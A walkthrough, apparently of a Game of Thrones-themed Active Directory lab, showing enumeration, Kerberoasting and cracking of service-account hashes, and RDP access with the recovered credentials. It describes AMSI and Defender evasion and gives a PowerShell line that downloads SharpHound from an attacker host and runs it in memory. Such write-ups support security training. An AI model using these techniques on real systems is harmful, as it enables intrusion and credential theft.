# Reconnaissance 0x02

From [Reconnaissance 0x01](reconnaissance-0x01.md) we got 4 users with passwords, now we wanna do Enumeration with valid Credential maybe we find other important information&#x20;

by using Impacket-GetADUsers or LdapSearch or you can get rdp Session then use the AD module or Powerview or anything else, just open your mind then you can do what you want with different methods&#x20;

I tried to use EnumUsers on all Domains but the Credential Works just With noth.sevenkingdoms.local,  you can dig deep with this Step and get more information

<figure><figcaption>
Impacket-GetADUsers
</figcaption></figure>

<figure><figcaption>
ldapsearch
</figcaption></figure>

We didn't get more information than we have, so the last thing we will try to discover SPN users by using impacket-GetuserSPN

<figure><figcaption>
impacket-GetUsersSPNs
</figcaption></figure>

Hmm, we got 2 SPN users with some interesting things \
the Jon.Snow user has CIFS Service on Winterfell DC and HTTP Service on thewall DC, but What are these Services?\
The CIFS stands for Common Internet File System and is used to Access file sharing\
The HTTP used to allow WinRM,  if we succeed in cracking the TGS hash we can open the RDP session on thewall and Access all files on Winterfell, Let's Start to get hashes using impacket-GetUserSPNs with `-request` and crack hashes with hashcat&#x20;

<figure><figcaption>
hashType
</figcaption></figure>

<figure><figcaption>
crackTGShash
</figcaption></figure>

Now we have enough Information and Credentials, so let's get RDP session \
i started with `Castelblack 192.168.56.11` with brandon.stark user\
you can use xfreerdp or Win RDP or anything else

<figure><figcaption>
xfreeRDP
</figcaption></figure>

<figure><figcaption>
rdp
</figcaption></figure>

But we have low privilege so what i can do with low privilege? \
i used powerup and didn't get anything&#x20;

<figure><figcaption>
powerUp
</figcaption></figure>

i tried to close Windows Defender but i couldn't &#x20;

<figure><figcaption></figcaption></figure>

Hmmm, I started with manual Enumeration, so I discovered files like users and got all users logged on to this machine and I can use PowerShell so I discovered local administrators group&#x20;

<figure><figcaption>
local Administrators
</figcaption></figure>

so the vagrant is the local Admin but this will be the last choice &#x20;

now we want to run Bloodhound to discover easily, but we have a little problem&#x20;

Restricted Execution Policy > so Set Execution policy bypass on the process \
AMSI detection > you have to bypass amsi \
Windows Defender > Bypass it by loading your scripts in memory&#x20;

<figure><figcaption></figcaption></figure>

let's load sharphound.exe in memory to use it\
`$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8000/SharpHound.exe')`\
`$assem = [System.Reflection.Assembly]::Load($data)[Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())`&#x20;

<figure><figcaption>
bloodhound 
</figcaption></figure>

<figure><figcaption></figcaption></figure>

now we will look at any interesting information from Bloodhound

